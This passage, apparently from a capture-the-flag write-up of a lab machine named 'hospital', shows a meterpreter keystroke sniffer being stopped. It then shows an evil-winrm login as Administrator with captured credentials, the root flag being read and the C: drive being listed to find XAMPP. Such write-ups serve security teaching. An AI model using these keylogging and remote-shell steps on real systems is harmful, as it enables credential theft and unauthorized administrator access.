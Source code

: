 Before we continue we also stop the sniffer.

```shell
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

We successfully login as Administrator using the credentials with WinRM.

```shell
labadmin@labmachine:~/hospital$ evil-winrm -i 10.10.11.241 -u Administrator -p '[OMITTED]'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

We find root flag at `C:\Users\Administrator\Desktop\root.txt`

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/14/2024   9:10 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
[OMITTED]
```

### XAMPP

XAMPP is installed in root directory. XAMPP that is a software bundle containing Apache, MySQL, PHP, and Perl, commonly used for web development.

```shell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/21/2023   5:12 PM                ExchangeSetupLogs
d-----       10/22/2023   9:48 PM                inetpub
d-----        11/5/2022  12:03 PM                PerfLogs
d-r---       11/13/2023   6:05 PM                Program Files
d-----       10/22/2023  10:01 PM                Program Files (x86)
d-----         9/6/2023   3:50 AM                root
d-r---         9/6/2023   7:57 AM                Users
d-----       11/13/2023   6:05 PM                Windows
d-----       10/22/2023  10:10 PM                xampp
-a----       10/21/2023   4:34 PM             32 BitlockerActiveMonitoringLogs
```
